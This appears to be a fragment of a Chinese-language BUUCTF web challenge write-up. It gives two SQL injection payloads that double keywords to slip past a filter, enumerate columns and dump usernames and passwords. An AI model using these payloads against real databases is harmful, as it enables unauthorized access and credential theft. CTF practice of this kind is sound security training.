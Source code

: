 <img src="/images/buuctf-web/image-20221014221726604-166704781973442.png" alt="image-20221014221726604" style="zoom:67%;" />

后面用常规方法一步一步找到flag就好了:

```
1' ununionion seselectlect 1,2,group_concat(COLUMN_NAME) frfromom infoorrmation_schema.columns whwhereere table_schema=database() aandnd table_name='b4bsql'#
```

<img src="/images/buuctf-web/image-20221014221925750-166704781973443.png" alt="image-20221014221925750" style="zoom:67%;" />

```
1' ununionion seselectlect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql#
```

<img src="/images/buuctf-web/image-20221014222131054-166704781973444.png" alt="image-20221014222131054" style="zoom:67%;" />
